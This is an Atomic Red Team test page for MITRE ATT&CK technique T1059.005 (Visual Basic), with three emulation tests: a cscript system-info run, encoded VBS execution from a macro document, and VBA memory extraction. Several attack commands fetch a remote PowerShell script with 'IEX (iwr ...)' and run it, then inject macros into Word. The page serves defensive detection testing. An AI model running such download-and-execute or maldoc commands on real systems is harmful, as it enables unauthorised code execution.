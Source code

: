 # T1059.005 - Visual Basic
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1059/005)
<blockquote>Adversaries may abuse Visual Basic (VB) for execution. VB is a programming language created by Microsoft with interoperability with many Windows technologies such as [Component Object Model](https://attack.mitre.org/techniques/T1559/001) and the [Native API](https://attack.mitre.org/techniques/T1106) through the Windows API. Although tagged as legacy with no planned future evolutions, VB is integrated and supported in the .NET Framework and cross-platform .NET Core.(Citation: VB .NET Mar 2020)(Citation: VB Microsoft)

Derivative languages based on VB have also been created, such as Visual Basic for Applications (VBA) and VBScript. VBA is an event-driven programming language built into Microsoft Office, as well as several third-party applications.(Citation: Microsoft VBA)(Citation: Wikipedia VBA) VBA enables documents to contain macros used to automate the execution of tasks and other functionality on the host. VBScript is a default scripting language on Windows hosts and can also be used in place of [JavaScript](https://attack.mitre.org/techniques/T1059/007) on HTML Application (HTA) webpages served to Internet Explorer (though most modern browsers do not come with VBScript support).(Citation: Microsoft VBScript)

Adversaries may use VB payloads to execute malicious commands. Common malicious usage includes automating execution of behaviors with VBScript or embedding VBA content into [Spearphishing Attachment](https://attack.mitre.org/techniques/T1566/001) payloads.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Visual Basic script execution to gather local computer information](#atomic-test-1---visual-basic-script-execution-to-gather-local-computer-information)

- [Atomic Test #2 - Encoded VBS code execution](#atomic-test-2---encoded-vbs-code-execution)

- [Atomic Test #3 - Extract Memory via VBA](#atomic-test-3---extract-memory-via-vba)


<br/>

## Atomic Test #1 - Visual Basic script execution to gather local computer information
Visual Basic execution test, execute vbscript via PowerShell.

When successful, system information will be written to $env:TEMP\T1059.005.out.txt.

**Supported Platforms:** Windows


**auto_generated_guid:** 1620de42-160a-4fe5-bbaf-d3fef0181ce9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| vbscript | Path to sample script | String | PathToAtomicsFolder&#92;T1059.005&#92;src&#92;sys_info.vbs|


#### Attack Commands: Run with `powershell`! 


```powershell
cscript #{vbscript} > $env:TEMP\T1059.005.out.txt
```

#### Cleanup Commands:
```powershell
Remove-Item $env:TEMP\sys_info.vbs -ErrorAction Ignore
Remove-Item $env:TEMP\T1059.005.out.txt -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Sample script must exist on disk at specified location (#{vbscript})
##### Check Prereq Commands:
```powershell
if (Test-Path #{vbscript}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.005/src/sys_info.vbs" -OutFile "$env:TEMP\sys_info.vbs"
New-Item -ItemType Directory (Split-Path #{vbscript}) -Force | Out-Null
Copy-Item $env:TEMP\sys_info.vbs #{vbscript} -Force
```




<br/>
<br/>

## Atomic Test #2 - Encoded VBS code execution
This module takes an encoded VBS script and executes it from within a malicious document. By default, upon successful execution
a message box will pop up displaying "ART T1059.005"

A note regarding this module, due to the way that this module utilizes "ScriptControl" a 64bit version of Microsoft Office is required.
You can validate this by opening WinWord -> File -> Account -> About Word

**Supported Platforms:** Windows


**auto_generated_guid:** e8209d5f-e42d-45e6-9c2f-633ac4f1eefa






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1059.005\src\T1059.005-macrocode.txt" -officeProduct "Word" -sub "Exec"
```

#### Cleanup Commands:
```powershell
Get-WmiObject win32_process | Where-Object {$_.CommandLine -like "*mshta*"}  | % { "$(Stop-Process $_.ProcessID)" } | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: The 64-bit version of Microsoft Office must be installed
##### Check Prereq Commands:
```powershell
try {
  $wdApp = New-Object -COMObject "Word.Application"
  $path = $wdApp.Path
  Stop-Process -Name "winword"
  if ($path.contains("(x86)")) { exit 1 } else { exit 0 }
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word (64-bit) manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #3 - Extract Memory via VBA
This module attempts to emulate malware authors utilizing well known techniques to extract data from memory/binary files. To do this
we first create a string in memory then pull out the pointer to that string. Finally, it uses this pointer to copy the contents of that
memory location to a file stored in the $env:TEMP\atomic_t1059_005_test_output.bin.

**Supported Platforms:** Windows


**auto_generated_guid:** 8faff437-a114-4547-9a60-749652a03df6





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| ms_product | Maldoc application Word | String | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing) 
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1059.005\src\T1059_005-macrocode.txt" -officeProduct "Word" -sub "Extract"
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:TEMP\atomic_t1059_005_test_output.bin" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
